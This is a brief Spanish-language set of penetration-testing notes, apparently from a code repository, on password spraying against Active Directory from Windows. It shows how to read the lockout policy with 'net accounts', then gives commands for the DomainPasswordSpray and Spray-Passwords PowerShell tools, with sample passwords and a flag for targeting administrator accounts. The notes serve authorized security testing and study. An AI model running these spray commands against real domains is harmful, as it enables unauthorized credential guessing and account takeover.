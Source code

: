 # Desde windows
#### Vemos las password policy para ver cuántos intentos tenemos

    net accounts

Las columnas importantes son:

- Lockout threshhold (nos dice cuantos intentos fallidos tenemos)
- Lockout duration (cuánto tiempo dura el blockeo)
- lockout observation window (cuando se renuevan a 0 los intentos fallidos)

### DomainPaswordSpray:

De manera automática va a generar una lista de usuarios del AD, ver las políticas de pass y quitar los users que están a un paso de quedar bloqueados

    Import-Module .\DomainPasswordSpray.ps1
    Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

### Spray-Passwords

    .\Spray-Passwords.ps1 -Pass Nexus123!

Podemos usar la flag -Admin para que solo pruebe con usuarios administradores.

